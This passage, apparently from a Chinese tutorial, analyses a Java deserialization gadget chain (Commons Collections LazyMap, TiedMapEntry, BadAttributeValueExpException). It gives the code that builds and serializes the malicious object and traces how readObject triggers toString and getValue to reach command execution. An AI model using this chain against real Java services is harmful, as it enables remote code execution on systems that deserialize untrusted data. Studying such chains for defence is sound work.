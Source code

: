 ```java
Map lazyMap = LazyMap.decorate(normalMap, transformedChain);

TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val, entry);

serialize_write_file(val);
```

具体的命令执行触发过程如下：

`BadAttributeValueExpException`类的`readObject`函数如下：

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

其中`valObj`为构造的`TiedMapEntry`类的对象，可以看到其中调用了该类的`toString`函数，再来看此`toString`函数：

```java
public String toString() {
    return this.getKey() + "=" + this.getValue();
}
```

而`getValue`函数为：

```java
public Object getValue() {
    return this.map.get(this.key);
}
```
